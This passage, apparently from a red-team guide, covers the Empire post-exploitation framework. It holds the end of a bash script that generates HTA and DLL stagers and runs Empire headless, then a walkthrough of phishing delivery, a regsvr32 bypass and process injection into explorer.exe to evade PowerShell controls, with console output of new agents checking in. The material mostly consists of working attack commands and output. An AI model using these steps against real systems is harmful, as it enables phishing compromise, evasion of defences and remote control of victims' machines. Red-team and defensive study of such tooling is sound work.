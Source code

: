 ```bash
set Listener $LISTENER_NAME
set OutFile $OUTPUT_DIR/empire_launcher.hta
generate

# DLL Launcher
usestager windows/launcher_dll
set Listener $LISTENER_NAME
set OutFile $OUTPUT_DIR/empire_launcher.dll
generate

exit
EOF

# Start Empire and run resource scripts
cd "$EMPIRE_PATH"
echo "Starting Empire and configuring listener..."
sudo ./empire --headless --resource "/tmp/listener_setup.rc"
echo "Generating stagers..."
sudo ./empire --headless --resource "/tmp/stagers_setup.rc"

# Clean up temporary files
rm /tmp/empire_cert.pem
rm /tmp/listener_setup.rc
rm /tmp/stagers_setup.rc

echo "Empire automation complete!"
echo "Listener '$LISTENER_NAME' configured on $LISTENER_HOST:$LISTENER_PORT"
echo "Stagers generated in $OUTPUT_DIR:"
ls -la "$OUTPUT_DIR"
```

### Example: PowerShell Without PowerShell

During a red team assessment for a financial organization with strict PowerShell controls, we used Empire to demonstrate bypassing these controls:

1. **Initial Access**:
   - Delivered an HTA stager through a phishing email
   - Executed the stager via a user clicking the attachment
   - Initial Empire agent established using regsvr32 bypass technique

2. **PowerShell Evasion**:
   ```
   # Using PowerShell without powershell.exe
   (Empire: AGNT123) > usemodule management/bypasses/psinject
   (Empire: powershell/management/bypasses/psinject) > set Listener https_listener
   (Empire: powershell/management/bypasses/psinject) > set ProcessID 3412  # Explorer.exe process
   (Empire: powershell/management/bypasses/psinject) > execute
   
   # New agent established from Explorer.exe
   [+] New agent A3BX7LP9 checked in
   
   # Verify process
   (Empire: A3BX7LP9) > shell get-process -id $pid
   [*] Tasked A3BX7LP9 to run TASK_SHELL
   
   # Shows explorer.exe, not powershell.exe
   ```


 [Version]: 4.6.0 BC Security | [Web]: https://github.com/BC-SECURITY/Empire